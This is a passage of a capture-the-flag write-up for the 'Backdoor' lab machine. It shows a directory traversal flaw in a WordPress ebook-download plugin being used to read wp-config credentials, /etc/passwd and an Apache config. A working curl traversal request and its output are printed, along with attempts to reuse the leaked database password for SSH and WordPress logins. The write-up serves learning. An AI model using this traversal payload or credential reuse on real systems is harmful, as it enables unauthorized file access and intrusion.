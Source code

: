 ```
/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...[snip]...

```

I can try to log into WordPress at`http://backdoor.htb/wp-login.php` with the username admin and wordpressuser, but neither work.

#### Filesystem Enumeration

The challenge with directory traversal / file read vulns is that you typically can’t list directories, only access files I know to exist.

`/etc/passwd` will provide a list of users:

```

oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
../../../../../../../etc/passwd../../../../../../../etc/passwd../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[snip]...
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>

```

I can try the DB password with user and root over SSH, but it doesn’t work.

Apache configs is something I can try to grab. `/etc/apache2/sites-enabled/000-default.conf` doesn’t returns anything, but `backdoor.htb.conf` does (comments removed):

```

<VirtualHost *:80>

        ServerName backdoor.htb
        ServerAlias *
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

<script>window.close()</script>

```
